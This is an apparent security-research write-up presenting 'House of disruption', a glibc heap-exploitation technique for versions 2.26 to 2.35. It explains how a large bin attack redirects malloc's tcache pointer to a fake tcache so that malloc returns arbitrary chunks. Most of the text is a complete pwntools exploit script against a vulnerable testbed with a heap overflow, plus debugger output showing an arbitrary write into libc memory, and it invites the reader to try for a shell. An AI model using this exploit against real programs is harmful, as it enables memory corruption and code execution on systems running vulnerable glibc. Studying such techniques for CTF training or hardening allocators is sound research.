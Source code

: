 # House of disruption
In this article I will describe a new powerful heap house I crafted which is applicable from glibc versions `2.26` until `2.35` (latest at the moment of writing this article). It's a pretty simple House but quite powerful with what you can do with it!

The main idea behind house of disruption is: by performing a simple large bin attack (which until 2.35 is unpatched) against `tcache` pointer, we can fool glibc into thinking that `tcache` is somewhere else on the heap. By crafting a fake tcache inside the large bin which `tcache` pointer is pointing to after the large bin attack, we can easily make `malloc` to return arbitrary chunks.

The only requirements for the house of disruption is a libc leak which we need inorder to locate the `tcache` pointer in memory and the ability to perform a large bin attack. Quite minimalistic isn't?

# Dive into malloc internals
For the house of disruption actually we just need to understand how tcache returns free tcache chunks back to the program.
```c
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```
And this is actually pretty interesting. When you ask from malloc/realloc/calloc/etc a chunk in the tcache range (from `0x0` to `0x400` bytes), `malloc` will try to see if there is an available free tcache chunk in the range of your requested chunk. If it finds one it will call `tcache_get` to fetch a free chunk and it will return it back to the program that requested this chunk.

The most important thing you have to consider is how ptmalloc2 locates the tcache on the heap. And as you can see above it uses a global variable named `tcache`. This variable will be our target for our large bin attack later.
```c
static __thread tcache_perthread_struct *tcache = NULL;
```
`tcache` is a per thread global variable and hence it is stored in the thread local storage of each thread. But for our single threaded program you can see it as a simple global variable which is **writable**.

Because ptmalloc2 blindly trusts this `tcache` pointer, if you are able to modify him to point somewhere you can write a fake `tcache` you will be able eventually to make ptmalloc2 to return arbitrary chunks back to the program!

For our case the only place we can craft a fake tcache is on the heap and so we will perform a large bin attack to put a heap address into the `tcache` pointer.

# Proof of Concept
For a proof of concept I will use the same testbed I used for another House that I made. You can find it [here]. If you remove the theme it's actually a simple testbed. In that testbed you have the ability to allocate chunks with a max size of `0x1000` bytes and you can free them if you wish. The bug in my testbed is a heap overflow of `40` bytes.

# Exploit for House of disruption.
```python
from pwn import *

elf = context.binary = ELF('house_of_disruption_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    else:
        return process(elf.path)

free_positions = [0,]*8

def select_option(option):
    io.sendlineafter(b'> ', str(option).encode())

def adjust_size(chunk_size): # copy pasted from HeapLABs ;)
    return (chunk_size & ~0x0f) - 8

def lock_position():
    for i in range(8):
        if free_positions[i] == 0:
            free_positions[i] = 1
            return i
    return -1

def unlock_position(pos):
    free_positions[pos] = 0
    
def malloc(size, contents):
    select_option(option = 1)
    io.sendlineafter(b'> ', hex(adjust_size(size)).encode())
    io.sendlineafter(b'> ', contents)
    return lock_position()

def free(index):
    select_option(option = 2)
    io.sendlineafter(b': ', str(index).encode())
    unlock_position(index)
    
def largebin_offset(address):
    return address - 0x20

def largebin_attack(target, fake_tcache_contents):
    largebin_target = largebin_offset(target)
    
    chunk_A = malloc(size = 0x820, contents=fake_tcache_contents) # after our large bin attack our new tcache will be here.
    chunk_B = malloc(size=0x70, contents=b'useful chunk') # this will take a guard chunk role also.
    chunk_C = malloc(size = 0x830, contents=b'Overflow me I will give you arbitrary chunks of many sizes!')
    chunk_guard = malloc(size = 0x40, contents=b'guard chunk')
    
    # Initiate our large bin attack.
    free(chunk_C) # free the biggest large chunk.
    
    # currently chunk 0x830 is linked in unsortedbin list, let's sort it to large bin list.
    sorter_chunk = malloc(size=0x840, contents=b'blah blah')
    free(chunk_A) # free the smallest large chunk.
    
    free(chunk_B) # we free this chunk inorder to overflow to chunk_C and hijack bk_nextsize pointer.
    
    chunk_B = malloc(size=0x70, contents=b'A'*0x60 + p64(0x0) + p64(0x830) + p64(0x0) + p64(0x0) + p64(0x0) + p64(largebin_target))
    # because we are sending also a newline we have to discard some output. Newline issues -.-
    io.recvuntil(b'Sorry you are not allowed to leave, you are my slave.\n')
    
    sorter_chunk = malloc(size=0x840, contents=b'blah blah') # now tcache must point back to our chunk_A!

def house_of_disruption():
    tcache_ref = libc.address - 0x2908
    
    # I will choose default_overflow_region as my target, you can choose any targets you like. Try to get a shell if you can ;)
    '''
        2a6:1530│       0x7faddbc4a530 (program_invocation_short_name) —▸ 0x7fff07c5ee08 ◂— 'house_of_disruption_patched'
        2a7:1538│       0x7faddbc4a538 (program_invocation_name) —▸ 0x7fff07c5eded ◂— '/home/un1c0rn/house_of_disruption/house_of_disruption_patched'
        2a8:1540│       0x7faddbc4a540 (default_overflow_region) ◂— 0x0
        2a9:1548│       0x7faddbc4a548 (default_overflow_region+8) ◂— 0x1
        2aa:1550│       0x7faddbc4a550 (default_overflow_region+16) ◂— 0x2
    '''
    
    target = libc.sym.default_overflow_region  # any target we like but we need it to be aligned to avoid tcache_get unaligned tcache mitigation!
    contents = p64(0xdeadbeef) + p64(0xcafebabe) + p64(0xbadc0de)

    # After our large bin attack our small large bin which now is our tcache will look like this:
    '''
        0x55ed6a059290:	0x0000000000000000	0x0000000000000821
        0x55ed6a0592a0:	0x00007f9ce80d41d0	0x000055ed6a059b20
        0x55ed6a0592b0:	0x000055ed6a059b20	0x00007f9ce7ede6d8
        0x55ed6a0592c0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592d0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592e0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592f0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059300:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059310:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059320:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059330:	0x00000000deadbeef	0x00000000deadbeef
    '''
    
    # Our new tcache will start from 0x55ed6a059290.
    # So we can not control the first 6 qwords. (Except if we perform another heap overflow from an above crafted chunk or with a write after free). But it doesn't matter the top of the tcache is allocated for the counts.
    # Filling our small large bin with a special crafted fake tcache we can supply fake tcache bins and allocate whatever we want!
    
    '''
/* offset      |    size */  type = struct tcache_perthread_struct {
/* 0x0000      |  0x0080 */    uint16_t counts[64];
/* 0x0080      |  0x0200 */    tcache_entry *entries[64];

                            /* total size (bytes):  640 */
                            }
    '''
    
    fake_tcache_counts = p64(0)*4 + p64(0xffffffffffffffff)*10 # first 4 qwords are used for fd/bk/bk_nextsize/fd_nextsize and after our large bin attack whatever we place there will be overwritten
    fake_tcache_bins   = p64(target - 0x10)*0x80 # spray our target because I'm lazy to calculate simple stuff.
    
    fake_tcache = fake_tcache_counts + fake_tcache_bins
    
    largebin_attack(tcache_ref, fake_tcache)
    malloc(size = 0xe0, contents=p64(0x0)*2 + contents) # allocate our target and overwrite it with our contents :)
    
    success(f'See the contents of your target in the debugger ;)')
    success(f'Quick reminder your selected target was: 0x{target:02x}')
    
io = start()

io.recvuntil(b'@ The ASLR god gifted you a present for your adventure: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

house_of_disruption()

io.interactive()
```
Result:
```python
$ python3 exploit.py GDB
[+] puts @ 0x7ffbf8091e80
[+] libc @ 0x7ffbf8018000
[+] See the contents of your target in the debugger ;)
[+] Quick reminder your selected target was: 0x7ffbf820b540
[*] Switching to interactive mode

Press 1 to add a new pwnie land
Press 2 to burn your pwnie land
> $  
pwndbg> tel 0x7ffbf820b540
00:0000│  0x7ffbf820b540 (default_overflow_region) ◂— 0xdeadbeef
01:0008│  0x7ffbf820b548 (default_overflow_region+8) ◂— 0xcafebabe
02:0010│  0x7ffbf820b550 (default_overflow_region+16) ◂— 0xbadc0de
03:0018│  0x7ffbf820b558 (default_overflow_region+24) —▸ 0x7ffbf821000a (__pthread_keys+10314) ◂— 0x0
04:0020│  0x7ffbf820b560 (default_overflow_region+32) ◂— 0x0
05:0028│  0x7ffbf820b568 (default_overflow_region+40) ◂— 0xffffffffffffffff

```
